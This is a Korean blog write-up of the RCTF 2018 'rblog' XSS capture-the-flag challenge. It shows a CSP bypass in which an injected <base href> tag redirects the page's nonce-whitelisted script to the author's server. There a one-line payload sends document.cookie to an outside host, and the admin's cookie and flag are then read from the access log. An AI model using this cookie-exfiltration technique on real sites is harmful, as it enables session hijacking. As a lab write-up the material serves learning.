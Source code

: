 ```yaml
---
layout: post
title: ! "[RCTF2018] rblog Write up"
excerpt_separator: <!--more-->
comments: true
categories : [CTF/2018]
tags:
  - Write-up
  - CTF
  - RCTF2018
---
```


`rblog`는 `RCTF 2018`에 출제되었던 XSS 문제인데, 대회 기간에는 풀이하지 못했다가 Write-up이 올라온 후 풀어보게 되었다.  

문제 정보는 아래와 같다.  

<!--more-->

```
get `document.cookie`
http://rblog.2018.teamrois.cn
```

### 1. 문제 분석

문제 링크에 접속하면 아래와 같은 페이지를 확인할 수 있다.  

![]({{ site.baseurl }}/images/CTF/RCTF2018/rblog/rblog_01.PNG)  

제목과 내용을 적고, 스타일을 적용하거나 이미지를 업로드할 수 있는 기능이 있다.  

또한 `최신 버전의 Chrome을 사용중인 admin`에게 신고할 수도 있다.  

admin에게 신고할 때에는 특정 값을 입력해야 하는데, 이는 내가 업로드 한 블로그의 주소라는 것을 알 수 있다.  

![]({{ site.baseurl }}/images/CTF/RCTF2018/rblog/rblog_02.PNG)  

![]({{ site.baseurl }}/images/CTF/RCTF2018/rblog/rblog_03.PNG)  

### 2. 취약점 찾기

문제의 설명에서 `document.cookie`를 얻으라고 했으므로 `XSS` 문제인 것은 알 수 있다.  

때문에 어떤 부분에서 `XSS`가 가능한지 알기 위해 `title`, `content`, `style`을 적용하는 부분에 아래와 같이 script 코드를 삽입 해 보았다.  

![]({{ site.baseurl }}/images/CTF/RCTF2018/rblog/rblog_04.PNG)  

그 결과, `title` 부분에서 `script`가 정상적으로 삽입되는 것을 확인할 수 있었지만, 실행되지는 않았다.  

![]({{ site.baseurl }}/images/CTF/RCTF2018/rblog/rblog_05.PNG)  

이 문제에도 역시나 `CSP`가 걸려있었다.  

`XSS` 공격은 해야하는데, `CSP`가 걸려 있어서 어떻게 풀이해야 하나 싶었는데, 다른 사람들의 write-up을 보니 `Google`에서 만든 [CSP Evaluator](https://csp-evaluator.withgoogle.com/)를 통해 특정 사이트에 적용 된 CSP 정보를 확인할 수 있었다.  

문제의 URL을 넣고 확인 해 보니 `base-uri`에 대한 보호가 적용되어 있지 않았다.  

![]({{ site.baseurl }}/images/CTF/RCTF2018/rblog/rblog_06.PNG)  

즉, `<base>`라는 태그를 사용하여 소스코드 상에서 사용된 상대 경로의 기준이 될 경로를 지정할 수 있다.  

만약 소스코드에서 css 파일이나 js 파일 등을 참조할 때 `./css/style.css`라는 상대 경로가 있을 경우, `<base>` 태그를 이용해 따로 경로를 설정해 주지 않는 한 `현재 페이지의 경로를 기준`으로 `style.css`를 찾아간다.  

그런데 만약 `<base>` 태그를 이용 해 `<base href="http://www.test.com/">`와 같이 기준 경로를 바꾸어 줄 경우, `설정해 준 경로를 기준`으로 파일을 찾아가게 된다.  

따라서 `<base>` 태그를 이용 해 기준 경로를 바꾸어 준다면, 문제의 소스코드 내에서 사용하는 `js`나 `css`를 내가 원하는 파일로 바꾸어 실행시킬 수 있다.  

우리는 `document.cookie`를 얻어야 하므로, `js` 파일을 사용하는 부분을 찾아보았다.  

다시 소스코드를 살펴보니 내가 업로드 한 블로그 글의 하단에서 아래와 같이 `js` 파일을 실행시키는 것을 확인할 수 있었다.  

![]({{ site.baseurl }}/images/CTF/RCTF2018/rblog/rblog_07.PNG)  

따라서 `<base>` 태그를 이용 해 기준 경로를 바꾸어 준 후, 바꾼 경로에 `/assets/js/jquery.min.js` 파일을 만든다면, 내가 원하는 코드를 실행시킬 수 있게 된다.  

### 3. 문제 풀이

나는 내 서버와 도메인을 갖고 있기 때문에 내 서버를 사용했다.  

내 서버에 `/assets/js/` 디렉토리 아래에 `jquery.min.js` 파일을 생성한 후, 아래와 같이 소스코드를 구현하였다.  

```js
location.href = "http://ccoma.me/?" + document.cookie;
```

이 후 `title`에 `<base href="http://ccoma.me/"/>` 를 넣어 글을 올린다면 기준 경로가 내 도메인이 되어 `<script nonce="af8d8b049007ffdddf9d4104295d126e" src="/assets/js/jquery.min.js"></script>`는 실제로는 `http://ccoma.me/assets/js/jquery.min/js`를 실행하게 된다.  

이 때, 해당 경로에는 `location.href = "http://ccoma.me/?" + document.cookie;`가 있으므로 `document.cookie`의 값을 인자로 해 해당 도메인에 접근하게 될 것이다.  

글을 업로드 한 후에 해당 글의 경로를 `admin`에게 신고하면 `admin`이 해당 글에 접근할 것이며, 결론적으로 `admin`의 `cookie`를 인자로 해당 도메인에 다시 접근하게 된다.  

먼저 아래와 같이 글을 올려 보았다.  

![]({{ site.baseurl }}/images/CTF/RCTF2018/rblog/rblog_08.PNG)  

`jquery.min.js`에는 `location.href`가 구현되어 있기 때문에 내 서버로 리다이렉트 될 것이다.  

때문에 `burp suite`를 이용 해 `Response`를 잡아 블로그 글의 주소를 캡쳐 했다.  

![]({{ site.baseurl }}/images/CTF/RCTF2018/rblog/rblog_09.PNG)  

이 후 해당 글의 링크를 `admin`에게 보내주었다.  

![]({{ site.baseurl }}/images/CTF/RCTF2018/rblog/rblog_10.PNG)  

![]({{ site.baseurl }}/images/CTF/RCTF2018/rblog/rblog_11.PNG)  

그러면 `admin`이 내 서버로 접근하게 되는데, 이 때 GET 방식으로 cookie가 넘어오게 되므로 이를 확인하기 위해 `access.log`를 확인 해 보았다.  

```
tail -f /var/log/apache2/access.log
```

전송 후에 짧게는 몇 초, 길게는 2분 정도를 기다리면 아래와 같이 flag가 함께 전송된 것을 확인할 수 있다.  

![]({{ site.baseurl }}/images/CTF/RCTF2018/rblog/rblog_12.PNG)  

```
FLAG : RCTF{why_the_heck_no_mimetype_for_webp_in_apache2_in_8012}
```
